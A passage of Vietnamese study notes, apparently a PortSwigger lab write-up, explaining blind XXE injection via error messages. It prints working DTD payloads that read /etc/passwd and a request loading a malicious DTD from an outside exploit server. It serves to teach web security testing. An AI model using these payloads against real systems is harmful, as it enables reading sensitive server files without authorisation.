 Cuối cùng submit nội dung file hostname và solved lab

>**NOTE:** Tuy nhiên kỹ thuật này có một nhược điểm là sẽ không hoạt động với các file có nhiều dòng, ví dụ như /etc/passwd. Điều này xảy ra vì XML parser khi fetch URL trong DTD sử dụng API, thì nó sẽ validate các ký tự không được phép xuất hiện trong URL (mà xuống dòng là một trong những ký tự đó). Trong trường hợp này có thể dùng giao thức FTP thay cho HTTP

### B. Blind XXE via eror message
Một cách thức tấn công blind XXE khác đó chính là trigger XML parsing eror khi đó error mesage được trả về, có thể chứa data nhạy cảm mà ta muốn lấy. Kỹ thuật này chỉ hiệu quả khi ứng dụng trả về error message bên trong response của nó

Ví dụ về paylaod dùng error message để đọc nội dung file /etc/passwd:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
> Cơ chế: Khi ``error`` cố gắng đọc 1 file không tồn tại (nonexistent) thì XML sẽ quăng ra một error message chứa tên file nonexistent đó, và bởi vì ta concat nội dung file /etc/passwd cho tên file nonexistent, nên khi error message trả về tên file nonexistent ta sẽ đọc được nội dung của /etc/passwd

Và để trigger được DTD chứa payload thì ta cũng dùng cách tương tự như Blind XXE out-of-band

#### Ví dụ: Lab6 XXE injection portswigger
Ở labs này thì input XML sẽ không trả về giá trị gì khi gửi đi nếu không phải là check số lượng hàng, vì thế ta dùng error message để đọc file /etc/passwd

Đầu tiên tạo một file DTD có nội dung như sau:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Sau đó tại nơi trao đổi XML của trang web ta đổi thành:
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a0700f6044173bcc0b3383401f6008f.exploit-server.net/exploit"> %xxe;]>
  <stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
  </stockCheck>
```
> Trong đó : ``https://exploit-0a0700f6044173bcc0b3383401f6008f.exploit-server.net/exploit`` là link tới file DTD chứa payload

Gửi XML đi và ta nhận về error message có chứa nội dung file /etc/passwd
